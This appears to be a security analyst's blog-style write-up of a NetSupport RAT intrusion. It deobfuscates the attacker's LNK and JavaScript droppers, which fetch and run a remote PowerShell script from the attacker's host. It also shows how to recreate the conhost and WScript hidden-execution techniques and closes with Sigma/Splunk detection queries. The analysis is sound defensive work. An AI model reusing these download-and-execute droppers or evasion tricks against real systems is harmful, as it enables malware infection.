







## 20231102 - JavaScript Deobfuscation & conhost.exe LOLBAS 

### Retrieving the suspicious JavaScript file

When reviewing [The DFIR Report: NetSupport Intrusion Results in Domain Compromise](https://thedfirreport.com/2023/10/30/netsupport-intrusion-results-in-domain-compromise/), there are some interesting points found. One of which is an obfuscated JavaScript involved in the investigation.

During the initial access, the user is tricked to click on a phishing link (USPostalService-themed), which redirects multiple time and reaches a likely compromised site the attacker used for hosting malicious ZIP files. Apparently the attacker added a layer of evasion to dynamic generate files and different filenames at the time a visitor retrieves them.

The victim will download a ZIP file, either with a **JavaScript file** or a **LNK** file.

<br/>

---

### The LNK file weaponized with LOLBAS - conhost.exe

For the LNK case - it is a LNK file with the following destination:

```bat
%SystemRoot%\system32\conhost.exe --headless powershell $gtV='et';new-alias y wg$gtV;.$([char](7467-7362)+'ex')(y -useb http://1otal.com/index/index.php)
```

Of course, a little obfuscation here - let's deobfuscate:
- Variable substitution: `$gtV='et';new-alias y wg$gtV;` --> y --> wget
- Unicode - UTF-16 character: `[char](7467-7362)`--> `[char](105)` --can be deemed as `&#105;`--> `i`
    - `[char](7467-7362)+'ex'` --> `iex`
- `(y -useb http://1otal.com/index/index.php)`
    - iex (wget -useb http://1otal.com/index/index.php)
        - `-useb` = UseBasicParsing

```bat
%SystemRoot%\system32\conhost.exe --headless powershell (wget -useb http://1otal.com/index/index.php)
```

- The use of `conhost.exe` is a known [LOLBAS technique](https://lolbas-project.github.io/lolbas/Binaries/Conhost/)
    - `--headless` hides the child process window - hiding the PowerShell execution
- In so, double-clicking the LNK file = making a request to retrieve a file from  `http://1otal.com/index/index.php`
- According to the investigation, this is an Obfuscated script to create malicious NetSupport RAT package for this infection

<br/>

---

### The JavaScript File

The JavaScript file is highly obfuscated as follows:

  

- The source code can be found in this [Paste Bin](https://pastebin.com/yjpMyUWD)

Of course, you may just run the JavaScript file in a Sandbox to see the result right away! 

The following just serves as an exercise for deobfuscating manually. To deobfuscate it a bit, we can make use of sites such as [https://deobfuscate.io/](https://deobfuscate.io/):

 

- You may found the result in this [Paste Bin](https://pastebin.com/xmRZ8aHC)

For JavaScript, it would be interesting to look into any `eval()` - look for an eval function call:

  

- Since we are interested in what will be run, we can simply replace the `eval` with `console.log`
- Then run the JavaScript with online tool like [https://playcode.io/javascript](https://playcode.io/javascript)

  

- You will get yet another obfuscated JavaScript - [PasteBin](https://pastebin.com/CwHR0Ji2)

Again, you may deobfuscate using [https://deobfuscate.io/](https://deobfuscate.io/):

``` js
oMKilXfTnLOHCUhAFBP = "sheLl";
YZqOsTxnMmpABJCF = new ActiveXObject(oMKilXfTnLOHCUhAFBP + "." + "ApPlIcAtIon");
FkLgcBCiVTGsmxdvpeb = new ActiveXObject("SCRiPtIng.filesystemobJECt");
if (FkLgcBCiVTGsmxdvpeb.FolderExists("C:pROgRamdAtamIcRosOftwINdoWs")) {
  YZqOsTxnMmpABJCF.ShellExecute("cmd", "/c Power" + oMKilXfTnLOHCUhAFBP + " -nop -w hidden " + "-ep bypaSS -enC SQ" + "BFAFgAIAAoA" + "E4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAb" + "gB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHI" + "AaQBuAGcAKA" + "AiAGgAdAB0AHAA" + "OgAvAC8" + "AMQBvAHQ" + "AYQBsAC4AYwBvAG0ALwBpAG4AZABlAHgALwBpAG4AZA" + "BlAHgALgBwAGgAcAAiACkA", "", "open", 0);
}
oMKilXfTnLOHCUhAFBP = "sheLl";
YZqOsTxnMmpABJCF = new ActiveXObject(oMKilXfTnLOHCUhAFBP + "." + "ApPlIcAtIon");
FkLgcBCiVTGsmxdvpeb = new ActiveXObject("SCRiPtIng.filesystemobJECt");
if (FkLgcBCiVTGsmxdvpeb.FolderExists("C:pROgRamdAtamIcRosOftwINdoWs")) {
  YZqOsTxnMmpABJCF.ShellExecute("cmd", "/c Power" + oMKilXfTnLOHCUhAFBP + " -nop -w hidden " + "-ep bypaSS -enC SQ" + "BFAFgAIAAoA" + "E4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAb" + "gB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHI" + "AaQBuAGcAKA" + "AiAGgAdAB0AHAA" + "OgAvAC8" + "AMQBvAHQ" + "AYQBsAC4AYwBvAG0ALwBpAG4AZABlAHgALwBpAG4AZA" + "BlAHgALgBwAGgAcAAiACkA", "", "open", 0);
}
oMKilXfTnLOHCUhAFBP = "sheLl";
YZqOsTxnMmpABJCF = new ActiveXObject(oMKilXfTnLOHCUhAFBP + "." + "ApPlIcAtIon");
FkLgcBCiVTGsmxdvpeb = new ActiveXObject("SCRiPtIng.filesystemobJECt");
if (FkLgcBCiVTGsmxdvpeb.FolderExists("C:pROgRamdAtamIcRosOftwINdoWs")) {
  YZqOsTxnMmpABJCF.ShellExecute("cmd", "/c Power" + oMKilXfTnLOHCUhAFBP + " -nop -w hidden " + "-ep bypaSS -enC SQ" + "BFAFgAIAAoA" + "E4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAb" + "gB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHI" + "AaQBuAGcAKA" + "AiAGgAdAB0AHAA" + "OgAvAC8" + "AMQBvAHQ" + "AYQBsAC4AYwBvAG0ALwBpAG4AZABlAHgALwBpAG4AZA" + "BlAHgALgBwAGgAcAAiACkA", "", "open", 0);
}
```

Finally we can do some replace works to make it easier to analyze:

```js
str_shell = "Shell";
obj_ActX_Shell_application = new ActiveXObject("Shell.Application");
obj_ActX_scripting_filesysobj = new ActiveXObject("Scripting.FileSystemObject");
if (obj_ActX_scripting_filesysobj.FolderExists("C:pROgRamdAtamIcRosOftwINdoWs")) {
  obj_ActX_Shell_application.ShellExecute("cmd", "/c PowerShell -nop -w hidden -ep bypaSS -enC SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQBvAHQAYQBsAC4AYwBvAG0ALwBpAG4AZABlAHgALwBpAG4AZABlAHgALgBwAGgAcAAiACkA", "", "open", 0);
}
```

- The `if` statement will be false - likely non-exist path
- Then it will run a hidden & encoded powershell script

We may finally use ChatGPT to decode the command:

```ps1
Invoke-Expression (New-Object System.Net.WebClient).DownloadString('http://1ota1.com/index/index.php')
```

- Same as the LNK file, the purpose of the JavaScript is to download an aiitional obfuscated script to create malicious NetSupport RAT package for this infection

<br/>

---

### Techniques Mimicking

#### Run PowerShell with JavaScript file via WScript

By default, `.js` file can be run with **Windows Based Script Host (WScript.exe)**. You may run the following JavaScript file - which runs `echo "Hello World from Malware!` with PowerShell:

```js
obj_ActX_Shell_application = new ActiveXObject("Shell.Application");
obj_ActX_Shell_application.ShellExecute("cmd", "/c PowerShell -nop -w hidden -ep bypaSS -enC ZQBjAGgAbwAgACIASABlAGwAbABvACAAV" + "wBvAHIAbABkACAAZgByAG8AbQAgAE0AYQBsAHcAYQByAGUAIQAiAA==", "", "open", 0);
```



Run the `.js` file by double-clicking and open with **Windows Based Script Host (WScript.exe)** to mimick the technique.

<br/>

#### Run PowerShell with conhost.exe via LNK file

You may run the following PowerShell script to generate a LNK file, which invokes PowerShell to send a GET request to `https://google.com/robots.txt`:

```ps1
$d64 = "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"
$binary = [Convert]::FromBase64String($d64)
Set-Content -Path .\out.lnk -Value $binary -Encoding Byte
```

Double click the generate `.lnk` file to mimick the technique.

<br/>

---

### Detections with Sigma & Splunk

#### Run PowerShell with JavaScript file via WScript

- [Sigma Project: WSF/JSE/JS/VBA/VBE File Execution Via Cscript/Wscript](https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_wscript_cscript_script_exec.yml)

```spl
index=* EventCode=1 (
  ( 
    OriginalFileName IN ("wscript.exe", "cscript.exe") OR Image IN ("*\\wscript.exe", "*\\cscript.exe") 
    AND CommandLine IN ("*.js*", "*.jse*", "*.vba*", "*.vbe*", "*.vbs*", "*.wsf*") 
  )
  OR ParentCommandLine IN ("*.js*", "*.jse*", "*.vba*", "*.vbe*", "*.vbs*", "*.wsf*")
) 
| table ParentCommandLine, CommandLine
```

  

<br/>

#### Run PowerShell with conhost.exe via LNK file

- [Sigma Project: Uncommon Child Process Of Conhost.EXE](https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_conhost_susp_child_process.yml)

```spl
index=* 
ParentImage="*\\conhost.exe" NOT (
    Provider_Name="SystemTraceProvider-Process" 
    OR (Provider_Name="Microsoft-Windows-Kernel-Process" Image="*\\git.exe" ParentCommandLine IN ("* show --textconv *", "* cat-file -s *")) 
    OR (ParentCommandLine="*C:\\WINDOWS\\system32\\conhost.exe 0x4*" CommandLine IN ("* show --textconv *", "* cat-file -s *")) 
    OR (Provider_Name="Microsoft-Windows-Kernel-Process" ParentCommandLine IN ("* cat-file -s *", "*show --textconv*") Image="C:\\Windows\\System32\\conhost.exe") 
    OR (ParentCommandLine IN ("\\??\\C:\\WINDOWS\\system32\\conhost.exe 0x4", "\\??\\C:\\WINDOWS\\system32\\conhost.exe 0xffffffff -ForceV1") Image="C:\\Windows\\System32\\conhost.exe") 
    OR (ParentCommandLine IN ("\\??\\C:\\WINDOWS\\system32\\conhost.exe 0xffffffff -ForceV1'", "\\??\\C:\\WINDOWS\\system32\\conhost.exe 0x4'") Image="C:\\Program Files\\Git\\mingw64\\bin\\git.exe")
)
| table ParentCommandLine, CommandLine
```

  


<br/>

---

### References

- [PAN Unit42 Investigation](https://github.com/pan-unit42/tweets/blob/master/2022-12-28-IOCs-for-NetSupport-RAT-infection.txt)
- [The DFIR Report: NetSupport Intrusion Results in Domain Compromise](https://thedfirreport.com/2023/10/30/netsupport-intrusion-results-in-domain-compromise/)
- [Sigma Project: WSF/JSE/JS/VBA/VBE File Execution Via Cscript/Wscript](https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_wscript_cscript_script_exec.yml)
- [Sigma Project: Uncommon Child Process Of Conhost.EXE](https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_conhost_susp_child_process.yml)